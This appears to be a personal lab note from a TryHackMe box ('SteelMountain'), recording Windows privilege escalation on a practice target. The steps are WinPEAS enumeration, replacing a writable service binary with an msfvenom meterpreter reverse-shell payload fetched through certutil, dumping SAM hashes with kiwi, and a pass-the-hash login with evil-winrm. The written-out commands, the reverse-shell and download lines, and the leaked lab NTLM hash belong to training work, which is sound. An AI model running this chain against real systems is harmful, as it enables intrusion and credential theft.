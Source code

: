 Got initial foot hold using Rejetto HTTP File Server [[PNPT/THM Boxes/SteelMountain/Initial Foothold|Initial Foothold]]

# Enumeration
---
- Upload and run `WinPEAS.exe`
	- ![[Pasted image 20250419060159.png]]

- Find the service details:
	- `sc qc AdvancedSystemCareService9`
		- ![[Pasted image 20250419060341.png]]
- Check if we have write access in `IObut`directory: Yes
	- ![[Pasted image 20250419060441.png]]

# Exploitation
---
- ==**Note**: **We can also make executable with name "ASCService.exe" and place it in Advanced SystemCare to replace the previous binary**==
- Generate `msfvenom`meterpreter binary:
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.98.106 lport=443 -f exe -o Advanced.exe`
- Start python http server
- Transfer in `C:\Program Files (x86)\IObit`:
	- `certutil.exe -urlcache -f http://10.8.98.106/Advanced.exe Advanced.exe`
	- ![[Pasted image 20250419060809.png]]
- Setup msfconsole:
	- `use exploit/multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set lhost tun0`
	- `set lport 443`
	- `run`
- Restart the service:
	- `sc stop AdvancedSystemCareService9`
	- `sc start AdvancedSystemCareService9`
	- ![[Pasted image 20250419061207.png]]
- Got the Shell :)
	- ![[Pasted image 20250419061243.png]]
- This shell quickly dies, so lets dump the hashes using `kiwi`:
	- `load kiwi`
	- `lsa_dump_sam`
	- ![[Pasted image 20250419063015.png]]
- Administrator NTLM hash: `53dbf27b0f37b1ef784c8a4768c0e9fa`


# Evil-Winrm
---
- `evil-winrm -i 10.10.155.147 -u Administrator -H '53dbf27b0f37b1ef784c8a4768c0e9fa'`
- 